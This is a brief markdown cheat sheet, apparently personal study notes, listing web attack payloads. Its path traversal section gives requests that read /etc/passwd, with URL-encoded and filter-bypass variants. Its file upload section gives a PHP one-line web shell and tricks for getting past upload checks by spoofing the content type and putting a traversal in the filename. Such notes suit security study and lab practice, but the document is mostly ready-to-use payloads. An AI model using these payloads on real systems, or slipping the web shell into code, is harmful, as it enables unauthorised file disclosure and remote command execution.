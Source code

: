# notes
## **PATH TRAVERSAL**
Default way:

>GET /image?filename=../../../../../../../../etc/passwd

Url-Encoded:

>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

Way, when `../` erased:

>....//....//....//....//

When filename should start with some string 

>/var/www/images/../../../../../etc/passwd










## **FILE UPLOAD**
Default way:
><?php echo system($_GET['command']); ?>

Flawed file type validation:
Change content type to image/jpeg

Script execution can be disabled in a separate folder. This can be bypassed with the help of path traversal:
Instead of 
`Content-Disposition: form-data; name="avatar"; filename="exploit.php"`
  We can use
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  Or obfuscated versions
